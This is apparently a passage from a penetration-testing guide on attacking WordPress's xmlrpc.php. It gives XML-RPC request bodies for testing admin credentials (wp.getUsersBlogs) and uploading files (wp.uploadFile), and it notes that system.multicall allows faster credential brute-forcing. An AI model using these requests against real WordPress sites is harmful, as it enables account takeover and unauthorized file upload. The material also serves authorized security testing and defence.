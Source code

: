 ```html
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```

The message _"Incorrect username or password"_ inside a 200 code response should appear if the credentials aren't valid.

![[../../images/image (107) (2) (2) (2) (2) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (4) (1).png]]

![[../../images/image (721).png]]

Using the correct credentials you can upload a file. In the response the path will appears ([https://gist.github.com/georgestephanis/5681982](https://gist.github.com/georgestephanis/5681982))

```html
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
	<methodName>wp.uploadFile</methodName>
	<params>
		<param><value><string>1</string></value></param>
		<param><value><string>username</string></value></param>
		<param><value><string>password</string></value></param>
		<param>
			<value>
				<struct>
					<member>
						<name>name</name>
						<value><string>filename.jpg</string></value>
					</member>
					<member>
						<name>type</name>
						<value><string>mime/type</string></value>
					</member>
					<member>
						<name>bits</name>
						<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodCall>
```

Also there is a **faster way** to brute-force credentials using **`system.multicall`** as you can try several credentials on the same request:

![](../../images/image (628).png)
